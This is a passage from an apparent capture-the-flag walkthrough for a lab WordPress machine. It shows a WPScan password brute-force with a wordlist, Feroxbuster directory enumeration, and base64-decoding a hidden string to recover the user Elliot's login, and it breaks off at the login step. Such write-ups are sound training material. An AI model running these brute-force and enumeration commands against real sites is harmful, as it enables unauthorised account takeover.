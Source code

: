 ### Use WPScan to brute-force password in fsocity.dic
Now we can use wpscan to try to get the password of Elliot:

```shell
wpscan --url 10.10.22.59 --passwords fsocity.dic --usernames Elliot -t 50
```

This will take long but we will get the following valid credentials at some point:

```shell
# Username
Elliot

# Password
ER28-0652
```
# Fast Method to get Credentials of Elliot
### Use Feroxbuster with common.txt wordlist to find /license
There is a faster method to find the credentials. For that, we need to find /license using Feroxbuster without recursive option and with the common.txt wordlist:

```shell
feroxbuster -u http://10.10.22.59/ -w /usr/share/wordlists/dirb/common.txt -n
```

In the results we can find the following URL:

```shell
<SNIP>
200      GET      156l       27w      309c http://10.10.22.59/license
<SNIP>
```

```shell
http://10.10.22.59/license
```

If we visit the URL above and check the file license, we can scroll down to the bottom to find a base64 string:

```shell
ZWxsaW90OkVSMjgtMDY1Mgo=
```

We can decode it on Linux CLI using the following command:

```shell
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
```

This will give us the credentials of Elliot:

```shell
elliot:ER28-0652
```

# Foothold
### Accessing WordPress as Elliot
With the credentials of Elliot, we can now log into WordPress on the following URL:
